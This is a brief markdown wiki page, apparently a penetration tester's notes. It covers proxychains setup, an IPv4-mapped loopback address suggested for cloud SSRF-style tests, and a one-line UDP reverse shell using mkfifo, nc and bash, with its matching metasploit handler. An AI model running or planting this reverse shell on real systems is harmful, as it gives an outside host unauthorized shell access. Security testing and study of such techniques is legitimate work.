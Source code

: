 ```yaml
---
title: General Network Tricks
description: A quick summary of Generalnetworktricks
published: true
date: 2023-01-28T22:21:24.093Z
tags: 
editor: markdown
dateCreated: 2022-10-01T21:19:34.651Z
---
```


# Proxychains

/etc/proxychains4.conf
```
[ProxyList]
socks5 localhost 12345
```

$proxychains bash
$anything in that bash session is proxied

# Funky addressing
May be able to use this on AWS/GCP/Azure tests
```
::ffff:127.0.0.1
```

# One line UDP Callback
note the HI is there so that the listener will open the connection. It will then be able to talk back to sender.
```
rm fifo; mkfifo fifo; nc -u 10.0.0.4 9998 < fifo | { echo "HI"; bash; } > fifo 2>&1  
```
The following is a good metasploit handler for these:
```
payload/cmd/unix/reverse_bash_udp
```

